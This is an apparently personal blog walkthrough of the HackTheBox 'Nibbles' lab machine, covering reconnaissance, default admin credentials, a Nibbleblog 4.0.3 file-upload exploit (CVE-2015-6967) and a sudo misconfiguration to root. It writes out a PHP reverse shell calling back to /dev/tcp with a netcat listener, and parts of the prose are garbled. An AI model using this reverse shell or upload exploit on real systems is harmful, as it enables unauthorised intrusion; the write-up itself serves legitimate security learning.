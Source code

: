 ```yaml
---
title: HackTheBox - Nibbles
date: 2020-12-23 23:37:00 +0100
categories: [Hackthebox walkthroughs, Linux, Easy]
tags: [htb-linux-easy, nibbleblog, default credentials, CVE-2015-6967, metasploit, meterpreter, reverse-shell, sudo misconfiguration, writeup, oscp-prep]
image: /assets/img/htb/machines/linux/easy/nibbles/nibbles.png
---
```


## Foothold

I have a payment account at Hack the Box and I feel I should use it more than I do. When I'm not showing about their CTF style box, I like some challenges. The part that is that with the On box, I usually don't write it. While I hone my skills in the hacking part, I don't hone mine to document the process. when i post here i can miss a thing or two but i try to do it not documentation is as important as the actual system exploit process. something to know if you solve this problem more than your entertainment.

![nibbles](/assets/img/htb/machines/linux/easy/nibbles/nibbles.png)

With Nibbles, nothing is really new except for two things. First, I have to work on another content management system. Second, I learned something about hash cracking -- but I'll get to that in a moment.

## Reconnaissance

First thing first, we run a quick initial nmap scan to see which ports are open and which services are running on those ports.

### `nmap` scan (open ports)

```bash
$ nmap -min-rate 5000 --max-retries 1 -sV -sC -p- -oN Nibbles-full-port-scan.txt 10.10.10.75
Warning: 10.10.10.75 giving up on port because retransmission cap hit (1).
Nmap scan report for 10.10.10.75
Host is up (0.096s latency).
Not shown: 65508 closed ports
PORT      STATE    SERVICE    VERSION
22/tcp    open     ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp    open     http       Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
4418/tcp  filtered axysbridge
```

### Apache/4.18 (port 80)

By inspecting the sources on port 80, we see there is a hidden directory `/nibbleblog/`:

![view-source-hidden-dir](/assets/img/htb/machines/linux/easy/nibbles/view-source-hidden-dir.png)

Once we wo to his "hidden" directory we see that is qa website powered by [**Nibbleblog**](http://www.nibbleblog.com/), which turns out to be an open source CMS for blogs: 

![nibbleblog](/assets/img/htb/machines/linux/easy/nibbles/nibbleblog.png)

While I was navigating on the website, I encountered the following error:

![XML error](/assets/img/htb/machines/linux/easy/nibbles/XML-error.png)

Maybe there is something to do with it, but let's continue our enumeration.

#### Nibbleblog

Since I'm looking for more information, I ran `dirb` on [http://10.10.10.75/nibbleblog/](http://10.10.10.75/nibbleblog/):

![dirb](/assets/img/htb/machines/linux/easy/nibbles/dirb.png)

On [http://10.10.10.75/nibbleblog/README](http://10.10.10.75/nibbleblog/README), we get the version number (`v4.0.3`) of **Nibbleblog**:

![version](/assets/img/htb/machines/linux/easy/nibbles/version.png)

Bibbidi-Bobbidi-Boo...there is an exploit available!

![searchsploit](/assets/img/htb/machines/linux/easy/nibbles/searchsploit.png)

But it requires credentials so we have to go further:

![exploit-options](/assets/img/htb/machines/linux/easy/nibbles/exploit-options.png)

#### Credentials

I made a quick search &rarr; _"nibbleblog default credentials"_. Unfortunately, I didn't find anything. \

Nevertheless, there is an admin's page: [http://10.10.10.75/nibbleblog/admin.php](http://10.10.10.75/nibbleblog/admin.php). We can try some basic username/password combinations like `admin/admin`, `root/root` or even `nibbles/nibbles`.

`admin/nibbles` worked:

![success](/assets/img/htb/machines/linux/easy/nibbles/success.png)

#### Metasploit

Let's go back to the exploit:

![msf](/assets/img/htb/machines/linux/easy/nibbles/msf.png)

By doing so, we have a meterpreter. That's nice, but in order to avoid this "black box" method, let's exploit the vulnerability without this tool.

#### [CVE-2015-6967](https://cvedetails.com/cve/CVE-2015-6967/) exploitation

Thanks to [https://packetstormsecurity.com/files/133425/NibbleBlog-4.0.3-Shell-Upload.html](https://packetstormsecurity.com/files/133425/NibbleBlog-4.0.3-Shell-Upload.html), we can follow the steps to perform the exploit:

![packetstorm](/assets/img/htb/machines/linux/easy/nibbles/packetstorm.png)

1. Prepare our PHP reverse shell:

```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.7/1234 0>&1'");
```

2. Upload our malicious file to [http://10.10.10.75/nibbleblog/admin.php?controller=plugins&action=config&plugin=my_image](http://10.10.10.75/nibbleblog/admin.php?controller=plugins&action=config&plugin=my_image):

![plugins > my image](/assets/img/htb/machines/linux/easy/nibbles/my_image.png)

3. Run a listener &rarr; `nc -lnvp 1234`

4. Visit [http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php](http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php). Now we have a shell:

![shell](/assets/img/htb/machines/linux/easy/nibbles/shell.png)

## User (nibbler)

```bash
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ cd /home
<ml/nibbleblog/content/private/plugins/my_image$ cd /home                    
nibbler@Nibbles:/home$ ls
ls
nibbler
nibbler@Nibbles:/home$ cd nibbler
cd nibbler
nibbler@Nibbles:/home/nibbler$ ls -la
ls -la
total 20
drwxr-xr-x 3 nibbler nibbler 4096 Dec 29  2017 .
drwxr-xr-x 3 root    root    4096 Dec 10  2017 ..
-rw------- 1 nibbler nibbler    0 Dec 29  2017 .bash_history
drwxrwxr-x 2 nibbler nibbler 4096 Dec 10  2017 .nano
-r-------- 1 nibbler nibbler 1855 Dec 10  2017 personal.zip
-r-------- 1 nibbler nibbler   33 Dec 23 15:17 user.txt
nibbler@Nibbles:/home/nibbler$ cat user.txt
cat user.txt
e598bb90bc9ff2f87b72e2083c1cb95a
nibbler@Nibbles:/home/nibbler$
```

Let's see what we can run with `sudo`:

```bash
$ sudo -l 
sudo: unable to resolve host Nibbles: Connection timed out
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

## Root

Okay so we just have to replace `/home/nibbler/personal/stuff/monitor.sh` by malicious content:

```bash
nibbler@Nibbles:/home/nibbler$ mkdir -p personal/stuff
nibbler@Nibbles:/home/nibbler$ echo "cat /root/root.txt" > /home/nibbler/personal/stuff/monitor.sh
nibbler@Nibbles:/home/nibbler$ sudo /home/nibbler/personal/stuff/monitor.sh
sudo: unable to resolve host Nibbles: Connection timed out
b59ce6c276598083872b41d4785c3e8
```

___

## Useful links

- [CVE-2015-6967](https://cvedetails.com/cve/CVE-2015-6967/)
- [Packetstorm NibbleBlog 4.0.3 Shell Upload](https://packetstormsecurity.com/files/133425/NibbleBlog-4.0.3-Shell-Upload.html)

